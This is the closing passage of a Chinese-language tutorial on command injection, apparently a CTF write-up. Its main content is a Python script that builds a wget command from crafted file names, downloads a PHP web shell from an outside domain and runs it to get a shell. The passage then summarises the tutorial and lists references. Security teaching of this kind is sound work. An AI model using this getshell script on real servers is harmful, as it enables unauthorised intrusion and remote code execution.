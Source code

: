 下面的脚本是在 phith0n 的基础上改的 python3 版本，通过运行脚本尝试 getshell 操作，这里的 fileNames 中的域名信息需要按需进行替换：

```plain
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests

def GetShell():
    url = "http://127.0.0.1/ctf.php?1="
    fileNames = ["a.php", "-O\\ \\", "cn\\ \\", "\\ liuwei.\\", "wget\\"]

    for fileName in fileNames:
        createFileUrl = url + ">" + fileName
        print(createFileUrl)
        requests.get(createFileUrl)

    getShUrl = url + "ls -t>1"
    print(getShUrl)
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print(getShellUrl)
    requests.get(getShellUrl)

    shellUrl = "http://127.0.0.1/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print("[*] Get shell!")
    else:
        print("[*] fail!")

if __name__ == "__main__":
    GetShell()
```

脚本运行结果如下 (需要注意的是目标的环境得是 Linux 环境哦，不然没得 sh 命令的哇)：

[![](assets/1708998334-268551d9d06adc9d2441c15c53301fee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224144030-9a42be62-d2df-1.png)

### 文末小结

本篇文章对命令注入的类型、注入的检测方式、盲注的利用思路以及命令注入的绕过方式进行了介绍，最后通过靶场案例以及 CTF 示例对相关技巧的利用进行了演示，当然也有很多其他的技巧有待发现，攻防互促进步~

### 参考链接

[https://mp.weixin.qq.com/s/itToKY5OyfytgN1a3XKzKQ](https://mp.weixin.qq.com/s/itToKY5OyfytgN1a3XKzKQ)  
[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
